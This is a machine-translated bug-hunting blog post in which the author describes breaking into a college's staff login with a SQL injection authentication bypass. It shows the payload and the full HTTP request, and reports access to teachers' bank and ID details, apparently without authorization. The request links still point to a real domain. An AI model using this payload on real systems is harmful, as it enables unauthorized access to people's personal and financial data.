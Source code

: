 # 我是怎么在学院网站上曝光老师的 Aadhaar 卡，银行明细的。

> 原文：<https://infosecwriteups.com/how-i-exposed-the-teachers-aadhaar-card-bank-details-in-the-college-website-3e8d44446378?source=collection_archive---------3----------------------->

嘿，各位黑客和臭虫猎人们，

在我和 Bug 狩猎之间的漫长间隙之后，我带着一篇评论回来了。

有一天，我结束了实习工作，就和朋友去打板球。他们问我你是否有谷歌荣誉奖，但这并不意味着你是一个真正的猎人。他说，就像如果你是一个真正的猎人，你能在我的大学网站上检索我的信息。

![](img/7615c86a5c5bce62e192332efb1a3c0f.png)

像往常一样，我不打算透露目标网页。我访问了他的大学网页，并探索其功能。我一看到员工登录页面。我转到了登录页面。像往常一样，如果我们看到一个登录页面，我们肯定会尝试一下 SQLi。我尝试了一些有效载荷，但我不能在文本框中输入有效载荷，有一个客户端验证来停止这些类型的注入。

> 但是，只有客户端验证。

![](img/a782d2701d327bf6b7dd11c2b768c7a0.png)

愚蠢的家伙..

打开我的打嗝捕捉请求编辑用户名参数为“管理”或“1”=“1”#”并发送请求…booom！！！！。我以管理员身份登录，拥有管理员权限。

> POST /Staff/loginProcess.jsp？submit=Log%20In HTTP/1.1
> 主机:test.com
> 用户代理:Mozilla/5.0(X11；Linux x86 _ 64RV:78.0)Gecko/2010 01 01 Firefox/78.0
> 接受:text/html，application/xhtml+xml，application/XML；q=0.9，image/webp，*/*；q=0.8
> 接受-语言:en-US，en；q=0.5
> Accept-Encoding: gzip，deflate
> Content-Type:application/x-www-form-urlencoded
> Content-Length:37
> Origin:[https://test](https://leapshc.org:8443)。com
> 连接:关闭
> 引用: [https://test](https://leapshc.org:8443/Staff/) 。com
> Cookie:JSESSIONID = session；升级-不安全-请求:1
> 
> 用户名=管理员'或' 1 ' = ' 1 ' # &密码=管理员&提交=

当我以管理员身份登录后，我可以检索到所有学生的信息。甚至我可以看到老师的所有细节。我就像 WTF！！！

![](img/2fe37cd5820858734d75f10bc10f4abb.png)

我可以输出所有的信息，甚至是账号，银行名称，个人信息。

感谢您阅读这篇文章。

请关注我，获取更多关于寻找 bug 的文章

在 Instagram 上关注我:[https://www.instagram.com/ram_0x_infosec/](https://www.instagram.com/ram_0x_infosec/)

在 Linkedin 上联系我:[https://www.linkedin.com/in/ram0xinfosec/](https://www.linkedin.com/in/ram0xinfosec/)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。查看更多详情并在此注册。

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)